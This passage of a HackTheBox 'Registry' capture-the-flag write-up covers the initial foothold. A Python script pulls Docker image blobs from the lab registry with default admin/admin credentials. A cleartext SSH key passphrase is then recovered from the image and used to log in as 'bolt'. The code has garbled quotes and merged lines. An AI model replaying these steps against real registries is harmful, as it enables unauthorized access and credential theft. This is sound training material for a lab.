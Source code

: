 # Initial Foothold:~$

Now it’s time to download these blobs

Here’s the script I used

```python
#!/usr/bin/env python3
#This is registry docker script to download all images.import osblob1 = ‘302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b’
blob2 = ‘3f12770883a63c833eab7652242d55a95aea6e2ecd09e21c29d7d7b354f3d4ee’
blob3 = ‘02666a14e1b55276ecb9812747cb1a95b78056f1d202b087d71096ca0b58c98c’
blob4 = ‘c71b0b975ab8204bb66f2b659fa3d568f2d164a620159fc9f9f185d958c352a7’
blob5 = ‘2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791’
blob6 = ‘a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4’
blob7 = ‘f5029279ec1223b70f2cbb2682ab360e1837a2ea59a8d7ff64b38e9eab5fb8c0’
blob8 = ‘d9af21273955749bb8250c7a883fcce21647b54f5a685d237bc6b920a2ebad1a’
blob9 = ‘8882c27f669ef315fc231f272965cd5ee8507c0f376855d6f9c012aae0224797’
blob10 = ‘f476d66f540886e2bb4d9c8cc8c0f8915bca7d387e536957796ea6c2f8e7dfff’
url = ‘http://docker.registry.htb/v2/bolt-image/blobs/sha256:'blob_list = [blob1,blob2,blob3,blob4,blob5,blob6,blob7,blob8,blob9,blob10]for x in blob_list:
 #Debugging
 #print(“wget -O “ + x + ‘ ‘ + url + x)
 os.system(“wget — http-user=admin — http-password=admin -O “ + x + ‘.tar.gz ‘ + url + x)
```
After Downloading All the blobs we get a file structure of Linux

On doing some enumeration I founded an interesting file `02-ssh.sh` in `etc/profile.d`

```bash
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```

Hurray!! We got a `potential` password and `id_rsa` key

## SSH:~$

```bash
ssh -i id_rsa bolt@10.10.10.159
```

![Registry](/assets/img/post/hackthebox/registry/2.png)
